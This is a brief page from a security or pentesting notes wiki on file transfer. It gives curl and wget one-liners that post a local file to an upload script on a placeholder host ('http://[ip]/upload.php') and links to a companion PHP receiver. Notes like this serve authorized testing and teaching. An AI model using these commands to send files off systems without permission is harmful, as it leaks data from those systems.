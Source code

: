 ```yaml
---
title: File Transfer
date: M01-29-2023
author: i4
---
```


See [Security/Windows/File Transfer](/wiki/Security/Windows/File%20Transfer.md) for a PHP script that support `php://input` 

## Curl
```bash
curl -F 'data=@[path to file]' http://[ip]/upload.php
```
## Wget
```bash
wget --post-file [path to file] http://[ip]/upload.php
```
